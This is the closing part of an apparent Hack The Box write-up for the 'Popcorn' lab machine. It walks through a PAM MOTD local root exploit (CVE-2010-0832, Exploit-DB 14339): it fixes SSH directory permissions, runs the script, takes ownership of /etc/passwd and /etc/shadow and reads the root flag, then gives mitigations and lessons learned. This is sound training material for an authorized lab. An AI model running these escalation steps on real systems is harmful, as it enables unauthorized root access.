I created the directory while running as `www-data` and set restrictive permissions:

```bash
mkdir -p /var/www/.ssh
chmod 700 /var/www/.ssh
ls -ld /var/www/.ssh
```

Observed result:

```text
drwx------ 2 www-data www-data ... /var/www/.ssh
```

I also verified the account's configured home:

```bash
getent passwd www-data
```

For shells where the `HOME` variable does not match the account's real home, the following setting is appropriate for the exploit's use of `~/.ssh`:

```bash
export HOME=/var/www
```

SSH normally requires the public-key authorization file and its parent directory to have safe ownership and permissions. Preparing `.ssh` with mode `700` avoided the authentication issue in the successful run.



*Figure 13 — The recreated directory is owned by `www-data` and has `drwx------` permissions.*

## 8. Successful privilege escalation and root flag

After correcting the SSH directory setup, I retried the local exploit:

```bash
cd /tmp
chmod +x 14339.sh
./14339.sh
```

The script now passed both ownership steps and printed:

```text
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
```

Using the exploit-created account's password at the final prompt yielded a root shell. I verified the effective identity:

```bash
whoami
id
```

```text
root
uid=0(root) gid=0(root) groups=0(root)
```

Finally, I accessed the root flag:

```bash
cat /root/root.txt
```

The machine was marked as solved in the HTB interface.



*Figure 14 — Confirmed root access and successful completion of Popcorn.*

## 9. Findings and defensive recommendations

| Finding | Observed impact | Recommended mitigation |
| --- | --- | --- |
| SQL injection in login | Administrative authentication bypass | Parameterized queries; avoid SQL string concatenation; safe password verification and least-privilege DB credentials |
| Unsafe screenshot upload validation | PHP payload accepted while pretending to be an image | Validate extensions, actual file signatures and content server-side; re-encode images; rename uploaded files; store them outside executable web paths |
| PHP upload executed by web server | Arbitrary server-side code execution as `www-data` | Disable code execution in upload directories; apply web-server restrictions and least privilege |
| Outdated Ubuntu/PAM package | Local escalation from web user to root | Keep OS and PAM packages patched; for Ubuntu 9.10, `libpam-modules` **1.1.0-2ubuntu1.1** fixed CVE-2010-0832; replace end-of-life operating systems |
| Weak isolation between web compromise and OS privileges | Web foothold was sufficient to reach an exploitable local OS component | Defense in depth: patching, file-system permissions, monitoring, and service confinement |

## 10. Lessons learned

1. **A SQL error is a clue, not the end of the test.** Understanding the generated query and MySQL comment syntax helped explain the authentication issue.
2. **An upload's `Content-Type` is not trustworthy.** The screenshot handler accepted a PHP file because the request labeled it as an image.
3. **Use the listener output to prove remote code execution.** A successful upload message only proves that the upload endpoint accepted the request.
4. **Match vulnerabilities to actual versions.** Ubuntu 9.10 plus `libpam-modules 1.1.0-2ubuntu1` supported investigation of CVE-2010-0832.
5. **Exploit failures can be environmental.** This case required troubleshooting SSH key authentication and directory permissions, not simply trying another exploit.
6. **Verify privilege escalation with `id`.** The successful end state was a shell reporting UID `0`, not merely a success message from the script.

## Screenshot index

All **14 original screenshots** used in this report are in [`screenshots/`](screenshots/), with ordered descriptive names. They retain their original resolution and content. Screenshots were supplied from the machine-solving session; several show terminal details and flags, so consider obscuring flag values if your publishing preferences or community rules require it.

## References

- [Ubuntu Security — CVE-2010-0832](https://ubuntu.com/security/cve-2010-0832)
- [Ubuntu Security Notice USN-959-1](https://ubuntu.com/security/notices/USN-959-1)
- [Exploit-DB 14339 — Linux PAM 1.1.0 MOTD Privilege Escalation (2)](https://www.exploit-db.com/exploits/14339)
- [Exploit-DB 14273 — Linux PAM 1.1.0 MOTD Privilege Escalation (1)](https://www.exploit-db.com/exploits/14273)

---

**Outcome:** Popcorn fully compromised in the authorized Hack The Box lab; both flags obtained, with root privileges confirmed by `uid=0(root)`.
